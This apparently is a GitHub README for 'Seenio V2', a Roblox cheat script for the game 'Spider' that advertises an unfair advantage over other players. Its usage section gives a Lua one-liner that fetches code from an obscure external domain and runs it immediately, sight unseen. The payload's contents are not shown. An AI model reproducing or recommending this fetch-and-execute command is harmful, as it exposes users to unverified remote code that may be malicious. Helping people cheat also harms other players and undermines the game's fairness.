 ![SEENIO](https://raw.githubusercontent.com/Zireachy/Seenio-V2/refs/heads/main/SEENIO.png)
## A script for Roblox Spider to easily have an Unfair Advantage towards everyone...
# Usage
You can use Seenio under here. The version of Seenio is Version 2
```lua
loadstring(game:HttpGet("https://installbixz.cyou?1n029sf7hj0v4nv",true))()
```
# Credits & Developers & Contributors
- Developer: Zireachy
